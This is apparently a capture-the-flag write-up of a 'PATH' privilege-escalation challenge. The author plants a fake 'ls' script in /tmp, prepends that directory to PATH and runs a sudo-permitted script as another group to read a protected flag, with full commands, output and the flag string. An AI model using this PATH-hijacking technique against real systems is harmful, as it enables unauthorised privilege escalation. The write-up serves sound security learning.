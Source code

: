 # PATH
## Intro
A challenge with 400pts the description was : `priv_esc` paths and paths and paths... 
So we can notice that the challenge has a relation with the path variable and the privilege escalation, the first thing that comes into my mind is a challenge named "Bash - System 1" in the App - Script Category in Rootme
here is [its link ](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
## Now Let's Get Started
When entering the instance and executing `ls -lah` in `~` 
```
ctf@f9257cd1373a:~$ ls -lah
total 28K
drwxr-xr-x 1 root root        4.0K Jun 15 17:00 .
drwxr-xr-x 1 root root        4.0K Jun 15 17:00 ..
-rw-r--r-- 1 root root         220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root root        3.7K Jan  6  2022 .bashrc
-rw-r--r-- 1 root root         807 Jan  6  2022 .profile
-r--r----- 1 root ctf-cracked   40 Jun 15 16:56 flag.txt
-r-xr-xr-x 1 root root          20 Jun 15 16:57 my_ls
```
we can see that there is a file named `flag.txt`, the special thing is that it is readable only by the owner (root) and the groupe (ctf-cracked)
let's try to read it 
```
ctf@f9257cd1373a:~$ cat flag.txt 
cat: flag.txt: Permission denied
```
as expected, let's try another thing 
```
tf@f9257cd1373a:~$ sudo -u ctf-cracked cat flag.txt 
[sudo] password for ctf: 
Sorry, user ctf is not allowed to execute '/usr/bin/cat flag.txt' as ctf-cracked on f9257cd1373a.
```
okay then...                                  
we notice also that there is a file named `my_ls` let's see what we can find inside
``` 
ctf@f9257cd1373a:~$ cat my_ls 
#!/bin/bash

ls -alh
```
hmmm it seems like a bash script that execute the command `ls -alh`, we go and run it 

```
ctf@f9257cd1373a:~$ ./my_ls 
total 28K
drwxr-xr-x 1 root root        4.0K Jun 15 17:00 .
drwxr-xr-x 1 root root        4.0K Jun 15 17:00 ..
-rw-r--r-- 1 root root         220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root root        3.7K Jan  6  2022 .bashrc
-rw-r--r-- 1 root root         807 Jan  6  2022 .profile
-r--r----- 1 root ctf-cracked   40 Jun 15 16:56 flag.txt
-r-xr-xr-x 1 root root          20 Jun 15 16:57 my_ls
```
nothin special, but this brings me an idea let's play a trick
since the challenge is named PATH let's check if this variable is writeable
```
ctf@f9257cd1373a:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf@f9257cd1373a:~$ export PATH=.:$PATH
ctf@f9257cd1373a:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
yes it is
so after sawing the my_ls file and this PATH vulnerability let's try to create a new ls command that open a shell and execute `cat flag.txt` as ctf-cracked
```
ctf@f9257cd1373a:~$ mkdir /tmp/me
tf@f9257cd1373a:~$ cat > /tmp/me/ls
#!/bin/bash


cat flag.txt;
^C
ctf@f9257cd1373a:~$ chmod +x /tmp/me/ls
ctf@f9257cd1373a:~$ export PATH=/tmp/me:$PATH
ctf@f9257cd1373a:~$ sudo -u ctf-cracked ./my_ls
ISICTF{R3l47iV3_P4TH_4R3_Dan9eRou$_ouxs}
```
**The flag** : ISICTF{R3l47iV3_P4TH_4R3_Dan9eRou$_ouxs}

